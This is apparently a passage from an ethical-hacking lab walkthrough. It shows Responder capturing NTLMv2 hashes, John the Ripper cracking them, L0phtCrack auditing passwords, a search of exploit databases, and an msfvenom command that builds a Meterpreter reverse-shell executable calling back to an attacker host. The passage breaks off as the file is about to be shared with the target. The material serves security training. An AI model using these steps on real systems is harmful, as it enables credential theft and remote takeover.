 Responder starts capturing the access logs of the Windows 11 machine. It collects the hashes of the logged-in user of the target machine.

Responder stores the logs in Home/Responder/logs: open the SMB-NTLMv2-SSP-10.10.1.11.txt file.
Crack this password hash using the John the Ripper:

	# sudo snap install john-the-ripper
	sudo john /home/ubuntu/Responder/logs/[Log File Name.txt]
	

### Audit System Passwords using L0phtCrack

L0phtCrack is a tool designed to audit passwords and recover applications. It recovers lost Microsoft Windows passwords with the help of a dictionary, hybrid, rainbow table, and brute-force attacks. It can also be used to check the strength of a password.

In this task, as an ethical hacker or penetration tester, you will be running the L0phtCrack tool by providing the remote machine’s administrator with user credentials. User account passwords that are cracked in a short amount of time are weak, meaning that you need to take certain measures to strengthen them.

As an ethical hacker or penetration tester, you can use the L0phtCrack tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any systems with weak passwords.


### Find Vulnerabilities on Exploit Sites

Exploit sites contain the details of the latest vulnerabilities of various OSes, devices, and applications. You can use these sites to find relevant vulnerabilities about the target system based on the information gathered, and further download the exploits from the database and use exploitation tools such as Metasploit, to gain remote access.

	https://www.exploit-db.com/
	
Here, we attempt to find the vulnerabilities of the target system using various exploit sites such as Exploit DB.

You can similarly use other exploit sites such as VulDB (https://vuldb.com), MITRE CVE (https://cve.mitre.org), Vulners (https://vulners.com), and CIRCL CVE Search (https://cve.circl.lu) to find target system vulnerabilities.


### Exploit Client-Side Vulnerabilities and Establish a VNC Session


	msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe
Note: Here, the IP address of the host machine is 10.10.1.13 (Parrot Security machine).

This will generate Test.exe, a malicious file at the location /home/attacker/Desktop

Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from Desktop to the shared location using the below commands:
